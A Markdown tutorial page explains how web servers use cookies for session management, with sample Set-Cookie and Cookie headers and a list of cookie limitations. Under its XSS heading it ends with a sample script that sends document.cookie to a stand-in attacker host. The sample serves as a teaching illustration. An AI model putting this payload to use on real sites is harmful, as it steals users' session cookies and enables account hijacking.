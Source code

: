 
## Session Management  

<figure>
  <div align="center">
    <img src="data/cookies/assets/session.png" height="300" width="500" style="border: 2px solid black;">
  </div>
  <figcaption style="text-align: center"></figcaption>  
</figure>
<br>

<!-- <img src = "data/cookies/assets/session.png">  -->

### How Cookies Work in The Server Side  

When a user visits a website and logs in, the server needs a way to remember that user across different pages. This is where cookies come in.  

1. The user logs in by sending credentials (e.g., username & password).  
2. The server verifies the credentials and creates a session for the user.  
3. The server sends a `Set-Cookie` header in the HTTP response, instructing the browser to store a cookie.  
4. The cookie (`session_id=abc123`) is now stored in the user's browser, helping the server recognize the user in future requests.  

   **HTTP Response:**  
   ```http
   HTTP/1.1 200 OK  
   Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict  
   ```  

### **How Client-Side Retrieves Cookies**  

Once stored, the cookie is automatically included in future requests to the same website, allowing the server to identify the user without requiring them to log in again.  

**Browser Request with Cookie:**  
```http
GET /profile HTTP/1.1  
Host: www.example.com  
Cookie: session_id=abc123  
```  

- The browser automatically adds the cookie to every request sent to `www.example.com`.  
- The server reads the cookie and verifies that `session_id=abc123` belongs to a valid logged-in user.  
- The user is shown their personalized profile page without needing to log in again.  

### **Limitations of Cookies**  

- **Storage Limit:** Maximum of **4KB**, restricting data storage.  
- **Network Load:** Sent with every request, increasing bandwidth usage.  
- **Security Risks:**  
  - **Session Hijacking:** Stolen session cookies can be used to impersonate users.  
  - **XSS Attacks:** JavaScript can steal cookies if not properly secured.  
  <figure>
  <div align="center">
    <img src="data/cookies/assets/XSS.png" height="300" width="500" style="border: 2px solid black;">
  </div>
  <figcaption style="text-align: center"></figcaption>  
</figure>
<br>

   <!-- <img src = "data/cookies/assets/XSS.png"> -->
```
<script>
document.location = "http://malicious-site.com/steal?cookie=" + document.cookie;
</script>
```